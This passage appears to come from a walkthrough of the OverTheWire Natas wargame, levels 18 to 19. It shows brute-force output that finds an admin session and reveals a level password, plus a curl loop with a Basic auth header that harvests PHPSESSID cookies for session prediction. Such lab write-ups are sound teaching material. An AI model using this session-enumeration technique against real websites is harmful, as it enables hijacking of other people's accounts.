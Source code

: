```bash
[-] 1 out of 640 is not a admin session.
[-] 2 out of 640 is not a admin session.
[-] 3 out of 640 is not a admin session.
[-] 4 out of 640 is not a admin session.
[-] 5 out of 640 is not a admin session.
[-] 6 out of 640 is not a admin session.
[-] 7 out of 640 is not a admin session.
[-] 8 out of 640 is not a admin session.
[-] 9 out of 640 is not a admin session.
...
[-] 115 out of 640 is not a admin session.
[-] 116 out of 640 is not a admin session.
[-] 117 out of 640 is not a admin session.
[-] 118 out of 640 is not a admin session.
[+] 119 out of 640 is a admin session.
[+] Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
```

4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

### Natas19

```markup
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...

Please login with your admin account to retrieve credentials for natas20.
```

Lets bake some cookies.

```text
for n in {0..1000}; do
    curl -v -s 'http://natas19.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' --data 'username=admin&password=password' 2>&1 | grep PHP
done

< Set-Cookie: PHPSESSID=312d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=312d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=332d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=342d61646d696e; path=/; HttpOnly
...
< Set-Cookie: PHPSESSID=3633352d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=3633352d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=3633372d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=3633382d61646d696e; path=/; HttpOnly
```

And lets get all the unique PHPSESSID's and sort them.

```text
312d61646d696e
332d61646d696e
342d61646d696e
352d61646d696e
...
3633372d61646d696e
3633382d61646d696e
3633392d61646d696e
3634302d61646d696e
```
